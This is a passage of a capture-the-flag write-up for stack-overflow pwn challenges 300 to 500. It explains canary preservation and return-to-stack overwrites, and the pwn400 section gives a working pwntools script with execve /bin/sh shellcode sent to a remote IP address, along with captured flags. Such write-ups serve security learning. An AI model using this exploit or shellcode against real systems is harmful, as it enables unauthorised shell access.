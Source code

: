 The stack has a 20 byte buffer, but 48 bytes total before the return pointer. The stack pointer is already given to us, so we just input our shellcode, buffer with internal screaming, then set the return pointer back to the stack.

`MCA{b2190e22b011aed60a6d60502bfcb9384375ad8b}`

## pwn 400
```
I heard pwn400 is more challenging than pwn300.

nc 44.197.231.105 3003
```
```
Welcome to pwn400! Your job is to make this program execute shellcode to read the flag file on the remote server. (Hint stack canary value: 0x8b5aa400)

The program will now read 80 bytes into a 20 byte buffer at 0xffef6708:
```
This challenge caused me a great amount of pain for no reason. All that changed is that after our 20 byte buffer, theres a stack canary (4 bytes). Then there's 28 bytes until the return address. *In theory*, our shell code can be before or after that canary, we return to it, and as long as we preserve the canary, everything's good.

Our shellcode would never work if it was before the return address.

Anyway, same deal, different story:

```py
from pwn import *

r = remote('44.197.231.105', 3003)

print(r.recvuntil(b'value: 0x'))
canary = int(r.recvuntil(b')', drop=True), 16)
r.recvuntil(b' at 0x')
stack = int(r.recvuntil(b':', drop=True), 16)
sc = b'\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'
lsc = len(sc)
r.sendline(b'A' * 20 + p32(canary) + b'A' * 28 + p32(stack+56) + sc)
r.interactive()
```

We scream into the buffer, then perserve the canary, then scream until the return address, then place our shellcode, which we've pointed our return address to.

`MCA{da19862838be1f5ee10398d1023544f59062bf67}`

# pwn 500
```
I heard pwn500 is more challenging than pwn400.

nc 44.197.231.105 3004
```
```
Welcome to pwn500! Your job is to make this program read in the string '/bin/sh\x00' then return to the libc system function. (Hint stack canary value: 0xfa480000)

The program will now read 200 bytes into a 20 byte buffer at 0xff8fec68:
```
Pretty much all of the headway on this chal was done by Richard, but I'll recount most of the process.
